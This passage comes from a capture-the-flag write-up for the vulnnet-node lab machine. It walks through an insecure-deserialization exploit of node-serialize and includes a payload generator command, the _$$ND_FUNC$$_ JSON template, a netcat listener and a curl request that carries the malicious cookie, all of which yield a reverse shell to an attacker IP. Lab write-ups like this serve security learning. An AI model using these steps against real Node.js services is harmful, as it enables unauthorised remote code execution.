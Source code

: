 ```plaintext
```

From this error we can see that the application is running [NodeJS](nodejs.dev/), uses the [Node-Serialize](https://snyk.io/blog/preventing-insecure-deserialization-node-js/) JavaScript package to serialize/store data.

# Initial Foothold

### \[-] www-data\@vulnnet-node

`node-serialize` and `serialize-to-js` are Node.js packages that are vulnerable to insecure deserialization. Unlike `JSON.parse` and `JSON.stringify`, which handle only JSON data, these packages can serialize and deserialize various object types, including functions. The malicious data is passed into `unserialze()` function in `node-serialize` combined with JavaScript's [Immediately Invoked Function Expression](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression), we are able to execute code on the machine.

More information in [this OpSecX article](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md).

Using [this script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) we can generate a serialized payload which will give us a reverse shell.

Download and save the script as `nodejsshell.py` and run the following command:

```sh
python nodejsshell.py <ATTACKER_IP> 4444
```

Copy this portion of the output generated by the script:

![4b693becc004bd90671b054c7f806c19.png](/resources/9fd14e417a7a437aaa090026fb20318c.png)

Paste it into the JSON string:

```json
{"rce":"_$$ND_FUNC$$_function (){ <PASTE_CODE_HERE>}()"}
```

Then use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64\('A-Za-z0-9%2B/%3D'\)URL_Encode\(true\)\&input=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7IDxQQVNURV9DT0RFX0hFUkU%2BfSgpIn0\&oenc=65001\&oeol=CR) to encode it into base64 and then URL encode it:

![a78b3d2506701a79b4ee519a06777e8f.png](/resources/48347e4483c8467998ed8ba7126f7e86.png)

Before sending the payload, we need to start our [Netcat](https://linux.die.net/man/1/nc) listener:

```sh
nc -nvlp 4444
```

Then make a request to the website using the malicious cookie with `curl`:

```sh
curl -vvv -b "session=<BASE64_ENCODED_PAYLOAD>" http://vulnnet.thm:8080
```

